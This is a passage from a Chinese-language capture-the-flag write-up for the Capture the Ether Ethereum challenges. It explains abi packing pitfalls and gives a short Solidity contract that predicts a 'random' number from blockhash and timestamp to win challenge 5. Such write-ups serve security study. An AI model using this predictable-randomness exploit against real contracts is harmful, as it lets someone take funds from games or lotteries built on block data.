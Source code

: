             - 但不同data type pack的長度不同
                - `blockhash`的回傳值是`bytes32`
                - `block.timestamp`的回傳值是`uint`
            - 以這裡來說他不知道`1526464861`是uint，就會爛掉


## challenge5

這題的話，就直接部署一個合約，然後用這個合約呼叫`guessRuntimeRandomNumber`

參數就送`uint16(keccak256(blockhash(block.number - 1), block.timestamp))`

因為這樣交易一定會在同個block，且timestamp一定相同

```
contract test{
    function fuck() {
        address cte = 0x9b56a7c72d9782503fa1684ae0fca835c0973638;
        CaptureTheEther c = CaptureTheEther(cte);
        uint16 c5Ans = uint16(keccak256(blockhash(block.number - 1), block.timestamp));
        c.guessRuntimeRandomNumber("r06921077", c5Ans);
    }
}
```

